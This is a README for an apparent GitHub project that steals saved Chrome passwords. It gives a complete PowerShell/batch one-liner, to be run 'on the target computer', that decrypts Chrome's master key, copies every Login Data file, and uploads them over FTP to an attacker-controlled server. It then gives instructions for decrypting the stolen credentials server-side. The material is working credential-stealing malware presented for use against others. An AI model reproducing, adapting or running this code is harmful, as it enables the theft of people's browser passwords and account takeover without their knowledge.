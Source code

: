 # ChromePasswordDecryptionWithPS
Sending the Login Data files along with the unique byte sequence needed to decode the passwords to a FTP server. Then, decrypt those files on the server side.

HOW TO USE:
  1. Download the "chrSender.ps1" file and edit the ftp server address and ftp server credentials (these appear twice in the code make sure to edit both)
  2. Run this on the target computer (make sure your ftp server is running so it can receive the information)  
      - You can also change this ps1 file into a batch file so it can run on the target's computer with one click, this can be done like this:  
      ```
      @echo off  
      set test5=$fileLoc = $env:LOCALAPPDATA + '\Google\Chrome\User Data\Local State';$TempFile3 = New-TemporaryFile;Copy-Item $fileLoc -Destination $TempFile3;$fileCont = Get-Content $TempFile3;$x = $fileCont ^^^| ConvertFrom-Json;$key = $x.os_crypt.encrypted_key;Add-Type -AssemblyName System.Security;$befbase = [System.Convert]::FromBase64String($key);$befbase = $befbase[5..($befbase.Length-1)];$clearPWD_ByteArray = [System.Security.Cryptography.ProtectedData]::Unprotect( $befbase, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser );$TempFile = New-TemporaryFile;Set-Content $TempFile -Value $clearPWD_ByteArray -Encoding Byte;$foldPar = $env:LOCALAPPDATA + '\Google\Chrome\User Data';$chF = Get-ChildItem -Path $foldPar -Filter 'Login Data' -Recurse -ErrorAction SilentlyContinue -Force -Name;$overallNum = (Get-Random -Minimum 10000000 -Maximum 99999999);$ftp = [System.Net.FtpWebRequest]::Create(('ftp://YOURIP/' + 'k_' + $overallNum + '.dat'));$ftp = [System.Net.FtpWebRequest]$ftp;$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile;$ftp.Credentials = new-object System.Net.NetworkCredential('YOURFTPLOGIN','YOURFTPPASSWORD');$ftp.UseBinary = $true;$ftp.UsePassive = $true;$content = [System.IO.File]::ReadAllBytes($TempFile);$ftp.ContentLength = $content.Length;$rs = $ftp.GetRequestStream();$rs.Write($content, 0, $content.Length);$rs.Close();$rs.Dispose();$curIt = 0;foreach ($cF in $chF) {$cFLoc = $foldPar + '\' + $cF;$TempFile2 = New-TemporaryFile;Copy-Item $cFLoc -Destination $TempFile2;$ftp = [System.Net.FtpWebRequest]::Create(('ftp://YOURIP/' + 'c' + $curIt + '_' + $overallNum + '.dat'));$ftp = [System.Net.FtpWebRequest]$ftp;$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile;$ftp.Credentials = new-object System.Net.NetworkCredential('YOURFTPLOGIN','YOURFTPPASSWORD');$ftp.UseBinary = $true;$ftp.UsePassive = $true;$content = [System.IO.File]::ReadAllBytes($TempFile2);$ftp.ContentLength = $content.Length;$rs = $ftp.GetRequestStream();$rs.Write($content, 0, $content.Length);$rs.Close();$rs.Dispose();$curIt = $curIt + 1;}  
      powershell -command %test5%
      ```  
      - ^^^If you copy this code, make sure to change the YOURIP, YOURFTPLOGIN, and YOURFTPPASSWORD sections (which all appear twice in the code)
  3. Once you receive the files on the server side you can decrypt them with the program I included
      - In order to do this, first download "ServerSideDecryptor.exe"
      - Open the command prompt and navigate to the folder where you have the exe saved
      - Structure the command like in cmd:  
        ```
        ServerSideDecryptor.exe "kfile.dat" "c0file.dat" "c1file.dat" "c2file.dat"
        ```
      - You must pass the path of the key (k) file first, then the other chrome login data (c) files next as shown above
        - If any of the chrome login data (c) files are 0 bytes, do not pass them into the command as it will result in an error
      - You can have any number of chrome login data (c) files, it does not matter, it will decrypt every one with the given key
      - An example of this command is:  
        ```
        ServerSideDecryptor.exe "C:\User\Desktop\k_71867785.dat" "C:\User\Desktop\c0_71867785.dat" "C:\User\Desktop\c1_71867785.dat" "C:\User\Desktop\c2_71867785.dat"
        ```
  4. Once you successfully pass in all the arguments and run the command, it will produce a "passesOutput.txt" file in the directory that the "ServerSideDecryptor.exe" is in
